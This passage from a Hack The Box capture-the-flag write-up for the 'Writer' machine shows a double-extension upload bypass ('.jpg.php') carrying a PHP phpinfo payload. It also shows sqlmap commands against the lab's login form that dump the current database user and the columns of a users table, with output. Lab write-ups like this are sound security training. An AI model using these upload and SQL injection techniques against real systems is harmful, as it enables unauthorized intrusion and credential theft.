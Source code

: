 Looking around we see many of the blog posts. We can edit the blog posts and change the image associated with the post by uploading an image. It claims only jpg files are allowed to be uploaded.

It seems if we put .jpg.php it let's us upload php files, it seems the filetype filter only ensures jpg is anywhere in the filename.
```
Content-Disposition: form-data; name="image"; filename="html-php-info.jpg.php"
Content-Type: application/x-php

<html>
    <body>
        <?php
            phpinfo();
        ?>
    </body>
</html>
```

We find no clear way to to access our uploaded files, so we continue with sqlpmap. We can use it to show us the current database and user:
```text
sqlmap -u "http://writer.htb/administrative" --data="uname=test&password=test" --current-user --current-db 

[12:30:38] [INFO] fetching current user
current user: 'admin@localhost'
[12:30:38] [INFO] fetching current database
got a refresh intent (redirect like response common to login pages) to '/dashboard'. Do you want to apply it from now on? [Y/n] n
current database: 'writer'
```

It reports back that the database is named "writer", and the current user is "admin@localhost". Next, we're able to dump the tables of the writer database, and we find a "users" table. We can again use sqlmap to dump the columns of that users table:
```text
sqlmap -u "http://writer.htb/administrative" --data="uname=test&password=test" -D writer -T users --columns

Database: writer
Table: users
[6 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| date_created | timestamp    |
| email        | varchar(255) |
| id           | int(11)      |
| password     | varchar(255) |
| status       | varchar(255) |
| username     | varchar(255) |
+--------------+--------------+
```


[1]: https://app.hackthebox.com/users/114053
[2]: https://www.hackthebox.eu